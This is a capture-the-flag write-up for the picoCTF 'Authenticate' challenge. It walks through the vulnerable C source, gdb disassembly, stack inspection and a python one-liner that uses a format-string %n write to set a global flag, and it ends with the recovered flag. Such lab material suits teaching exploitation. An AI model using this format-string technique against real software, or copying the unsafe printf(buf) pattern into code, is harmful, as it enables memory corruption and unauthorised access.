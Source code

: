 # Authenticate - Pwn

On this challenge, we get this source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

Here we see that we need to get authenticated to equal 1 in order to get the flag. We then find a format string vulnerability on this line:
```printf(buf);```

First we fire up gdb and diassemble the read_flag function:
```
gdb-peda$ disas read_flag
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:    push   ebp
   0x080486e5 <+1>:    mov    ebp,esp
   0x080486e7 <+3>:    sub    esp,0x8
   0x080486ea <+6>:    mov    eax,ds:0x804a04c
   0x080486ef <+11>:    test   eax,eax
   0x080486f1 <+13>:    jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:    sub    esp,0xc
   0x080486f6 <+18>:    push   0x8048934
   0x080486fb <+23>:    call   0x80484f0 <puts@plt>
   0x08048700 <+28>:    add    esp,0x10
   0x08048703 <+31>:    jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:    sub    esp,0xc
   0x08048708 <+36>:    push   0x8048958
   0x0804870d <+41>:    call   0x80484f0 <puts@plt>
   0x08048712 <+46>:    add    esp,0x10
   0x08048715 <+49>:    call   0x804865b <flag>
   0x0804871a <+54>:    nop
   0x0804871b <+55>:    leave  
   0x0804871c <+56>:    ret    
End of assembler dump.
```

Here we see this line:
```0x080486ea <+6>:    mov    eax,ds:0x804a04c```

This will move the authenticated variable into the register EAX, and ds stands for data segment. This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us.

First I need to check where I can set breakpoint in main to be able to see how the stack looks after the call to the vulnerable function printf as I mentioned earlier.

```
....
0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
....
```

I set a breakpoint after the printf line here with:
``` b * 0x080487fe```

Then I run this:
>run <<< $(python -c 'print "\x4c\xa0\x04\x08%p%p%p%p%p"')

To start the program and %p prints what is on the stack. I then use ```x/xw $esp``` to see how the stack looks like:
```
gdb-peda$ x/xw $esp
0xffffd280:    0xffffd2ac
gdb-peda$ 
0xffffd284:    0x080489a6
gdb-peda$ 
0xffffd288:    0xf7fa15c0
gdb-peda$ 
0xffffd28c:    0x0804875a
gdb-peda$ 
0xffffd290:    0x00000000
gdb-peda$ 
0xffffd294:    0x00ca0000
gdb-peda$ 
0xffffd298:    0x00000000
gdb-peda$ 
0xffffd29c:    0xffffd3a4
gdb-peda$ 
0xffffd2a0:    0x00000000
gdb-peda$ 
0xffffd2a4:    0x00000000
gdb-peda$ 
0xffffd2a8:    0x00000000
gdb-peda$ 
0xffffd2ac:    0x0804a04c
```
We see here that the address 0x0804a04c is on the 11th step, which means that when we run this:
```python -c 'print "\x4c\xa0\x04\x08%11$p"' | ./auth ```
Here, ```$``` says which place on the stack we should write/read from. From the output on the command above, we should get the address and that is what we get:
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�0x804a04c
Sorry, you are not *authenticated*!
```

Now we need to write something to the stack and we can use %n for that. So we change from %p to %n

```python -c 'print "\x4c\xa0\x04\x08%11$n"' | nc 2018shell2.picoctf.com 26336```

The %n prints out the length of what has been printed out from printf which is 4 in this case, so authenticated will contain the number 4 which works because authenticated will be true as long as it is not 0.

If we run the command above, we get the flag: 
```
Would you like to read the flag? (yes/no)
Received Unknown Input:

Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_e8337b91}
````

